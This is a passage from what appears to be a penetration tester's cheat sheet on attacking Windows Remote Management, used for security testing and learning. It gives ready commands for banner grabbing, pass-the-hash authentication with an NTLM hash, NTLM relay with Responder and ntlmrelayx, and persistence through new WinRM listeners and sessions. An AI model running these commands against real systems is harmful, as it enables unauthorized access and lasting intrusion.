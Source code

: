 #### Service Enumeration

*   **Tool:** \[\[NetCat]]

    ```bash
    nc <target_ip> 5985
    ```
* **Description:** Retrieves the service banner to identify the software version and potential vulnerabilities.

### Initial Access

#### Pass-the-Hash

*   **Tool:** \[\[CrackMapExec]]

    ```bash
    crackmapexec winrm <target_ip> -u <username> -H <NTLM_hash>
    ```
* **Description:** Uses an NTLM hash to authenticate with the WinRM service without needing the plaintext password.

#### \[\[Relay Attacks]]

*   **Tool:** \[\[Responder Cheat Sheet]], \[\[Impacket-NTLMRelayX Cheat Sheet]]

    ```bash
    impacket-ntlmrelayx -tf targets.txt
    sudo responder -I <interface>
    ```
* **Description:** Relay captured credentials to the target service, potentially gaining unauthorized access.

### Persistence

#### Adding a New WinRM Listener

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    winrm create winrm/config/Listener?Address=*+Transport=HTTP
    ```
* **Description:** Create an additional WinRM listener on a different port to maintain persistent access.

#### Creating a Persistent Session

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    $session = New-PSSession -ComputerName <target_ip>
    ```
* **Description:** Establishes a persistent remote session that can be re-used for multiple commands, maintaining access over time.
